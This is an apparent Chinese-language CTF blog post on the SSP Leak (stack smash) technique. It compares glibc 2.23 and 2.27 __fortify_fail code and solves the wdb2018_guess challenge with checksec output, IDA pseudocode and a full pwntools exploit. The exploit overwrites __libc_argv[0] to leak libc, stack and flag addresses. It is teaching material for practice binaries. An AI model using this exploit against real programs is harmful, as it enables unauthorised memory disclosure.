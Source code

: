 ```yaml
---
title: Stack smash
date: 2020-04-09 20:40:10
tags: pwn
---
```

最近在出题啊，往安恒投题，能恰钱，收到邮件的时候很快乐<!--more-->  
然后学习了一波stack smash的技术，想着出一个这种题投过去，看上去还是蛮好出的，但是其中有一个fork函数把我难到了  
先简单讲一下fork函数，fork是复制一份进程，它会有两个返回值，用一个if条件，如果返回0，说明是子进程，如果返回是一个pid号，说明是父进程  
什么意思呢？其实后面的这些不明白也不是很重要（目前来说），fork是复制一份进程，那么，触发canary的时候，程序崩溃，不会直接退出，而是再次执行子进程，子进程由于是复制而来的，所以所有内存布局，canary等值是一模一样的，那就快乐了，我写一个for循环fork，就能把触发canary而崩溃的程序重新执行，循环几次执行几次  
SSP Leak又是什么呢？就是Stack Smashing Protector Leak，触发时会执行__stack_chk_fail函数，打印出"stack smashing detected"，并且后面会跟一个参数，正常来说这个参数就是程序名，但是如果我们通过栈溢出来将其覆盖成其他地址，就能通过触发canary打印出的报错信息来泄露我们想得到的内存数据，几乎可以实现任意地址读  
但是有一点需要注意，SSP Leak只适用于ubuntu1604的环境，高版本libc已经不能利用这种技术来泄露了  
先贴个源码比较一下  
glibc2.23  
```C++  
#include <stdio.h>
#include <stdlib.h>


extern char **__libc_argv attribute_hidden;

void
__attribute__ ((noreturn)) internal_function
__fortify_fail (const char *msg)
{
  /* The loop is added only to keep gcc happy.  */
  while (1)
    __libc_message (2, "*** %s ***: %s terminated\n",
            msg, __libc_argv[0] ?: "<unknown>");
}
libc_hidden_def (__fortify_fail)
```  
glibc2.27  
```C++  
#include <stdio.h>
#include <stdlib.h>
#include <stdbool.h>


extern char **__libc_argv attribute_hidden;

void
__attribute__ ((noreturn))
__fortify_fail_abort (_Bool need_backtrace, const char *msg)
{
  /* The loop is added only to keep gcc happy.  Don't pass down
     __libc_argv[0] if we aren't doing backtrace since __libc_argv[0]
     may point to the corrupted stack.  */
  while (1)
    __libc_message (need_backtrace ? (do_abort | do_backtrace) : do_abort,
            "*** %s ***: %s terminated\n",
            msg,
            (need_backtrace && __libc_argv[0] != NULL
             ? __libc_argv[0] : "<unknown>"));
}

void
__attribute__ ((noreturn))
__fortify_fail (const char *msg)
{
  __fortify_fail_abort (true, msg);
}

libc_hidden_def (__fortify_fail)
libc_hidden_def (__fortify_fail_abort)
```  
通过实验发现，在glibc2.27的环境下只会打印unknown  
例题：wdb2018_guess  
[题目下载地址](https://buuoj.cn/challenges#wdb2018_guess)  
检查保护  
```shell  
➜  wdb2018_guess checksec GUESS
[*] '/home/N0vice/Desktop/BUUCTF/wdb2018_guess/GUESS'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```  
IDA分析下伪代码  
```C++  
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  __WAIT_STATUS stat_loc; // [rsp+14h] [rbp-8Ch]
  int v5; // [rsp+1Ch] [rbp-84h]
  __int64 v6; // [rsp+20h] [rbp-80h]
  __int64 v7; // [rsp+28h] [rbp-78h]
  char buf; // [rsp+30h] [rbp-70h]
  char s2; // [rsp+60h] [rbp-40h]
  unsigned __int64 v10; // [rsp+98h] [rbp-8h]

  v10 = __readfsqword(0x28u);
  v7 = 3LL;
  LODWORD(stat_loc.__uptr) = 0;
  v6 = 0LL;
  sub_4009A6(a1, a2, a3);
  HIDWORD(stat_loc.__iptr) = open("./flag.txt", 0);
  if ( HIDWORD(stat_loc.__iptr) == -1 )
  {
    perror("./flag.txt");
    _exit(-1);
  }
  read(SHIDWORD(stat_loc.__iptr), &buf, 0x30uLL);
  close(SHIDWORD(stat_loc.__iptr));
  puts("This is GUESS FLAG CHALLENGE!");
  while ( 1 )
  {
    if ( v6 >= v7 )
    {
      puts("you have no sense... bye :-) ");
      return 0LL;
    }
    v5 = sub_400A11();
    if ( !v5 )
      break;
    ++v6;
    wait((__WAIT_STATUS)&stat_loc);
  }
  puts("Please type your guessing flag");
  gets(&s2);
  if ( !strcmp(&buf, &s2) )
    puts("You must have great six sense!!!! :-o ");
  else
    puts("You should take more effort to get six sence, and one more challenge!!");
  return 0LL;
}
```  
```C++  
__int64 sub_400A11()
{
  unsigned int v1; // [rsp+Ch] [rbp-4h]

  v1 = fork();
  if ( v1 == -1 )
    err(1, "can not fork");
  return v1;
}
```  
用了while循环和if判断，使我们能进行3次猜测  
主要思路如下：  
计算可控输入首地址和__libc_argv[0]之间的偏移，将__libc_argv[0]覆盖成puts_got，泄露libc_base  
泄露栈地址  
计算栈地址与flag之间的距离，得到flag的地址  
覆盖__libc_argv[0]为成flag地址，泄露flag  
exp：  
```python  
#!/usr/bin/env python
#coding=utf-8
from pwn import*
import sys
#context.log_level = 'debug'
context.terminal = ['terminator','-x','sh','-c']
binary = './pwn1' 
local = 1
if local == 1:
    p=process(binary)
else:
    p=remote("",)
elf=ELF(binary)
libc=elf.libc
def exp():
    p.recvuntil("flag\n")
    payload = "a"*296 + p64(elf.got['puts'])
    p.sendline(payload)
    p.recvuntil("*** stack smashing detected ***: ")
    puts_addr = u64(p.recvuntil('\x7f')[-6:].ljust(8,'\x00'))
    libc_base = puts_addr - libc.sym['puts']
    log.success("puts_addr==>" + hex(puts_addr))
    log.success("libc_base==>" + hex(libc_base))
    environ = libc_base + libc.sym['environ']
    p.recvuntil("flag\n")
    payload = "a"*296 + p64(environ)
    p.sendline(payload)
    p.recvuntil("*** stack smashing detected ***: ")
    stack_addr = u64(p.recvuntil('\x7f')[-6:].ljust(8,'\x00'))
    log.success("stack_addr==>" + hex(stack_addr))
    flag = stack_addr - 0x168
    p.recvuntil("flag\n")
    payload = "a"*296 + p64(flag)
    p.sendline(payload)
    p.interactive()
exp()
```  
参考链接：  
https://cloud.tencent.com/developer/article/1607482  
https://ihomura.cn/2018/08/23/WriteUp-%E7%BD%91%E9%BC%8E%E6%9D%AF%E6%95%99%E8%82%B2%E7%BB%84/  
http://www.pwn4fun.com/pwn/stack-pivot-and-stack-smash.html#2018%E7%BD%91%E9%BC%8E%E6%9D%AFGUESS  
https://bbs.pediy.com/thread-224643.htm  